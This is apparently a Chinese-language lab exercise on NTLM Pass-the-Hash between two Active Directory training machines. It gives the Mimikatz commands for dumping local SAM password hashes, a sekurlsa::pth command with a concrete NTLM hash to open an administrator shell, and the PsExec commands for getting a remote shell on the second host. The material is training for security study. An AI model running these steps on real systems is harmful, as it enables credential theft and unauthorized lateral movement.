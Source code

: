 # Exercise 2 - NTLM and Pass-the-Hash

## Tools

需要工具(attacker-tools2)

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](https://github.com/gentilkiwi/mimikatz)

## Theory

### NTLM For workgroup

![](../images/2022-06-20-22-35-58.png)

### NTLM Attack

![](../images/2022-06-20-22-33-06.png)

## Exercise

本練習中，我們將針對不同電腦間(ad-00、ad-01)相同本機管理員(administrator)的使用者，實作Pass-the-Hash的攻擊，由於ad-00以及ad-01在安裝時administrator的密碼相同，所以攻擊會成立。

- 使用最高權限打開mimikatz

```powershell
cd C:\Users\john\Desktop\exercises\attacker-tools\attakcers-tools-2\
.\mimikatz_trunk\x64\mimikatz.exe
```

- 使用mimikatz 取得 local user的password hash

```cmd
privilege::debug
token::elevate
lsadump::sam
```

- 使用mimikatz的PTH模組，開啟一個local admin account的shell
    - 預設安裝的administrator

```powershell
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

- 使用psexec連線ad-01

```powershell
cd C:\attacker-tools
.\PsExec64.exe \\ad-01 cmd
```

確認是否成功連線ad-01

```powershell
whoami
hostname
```
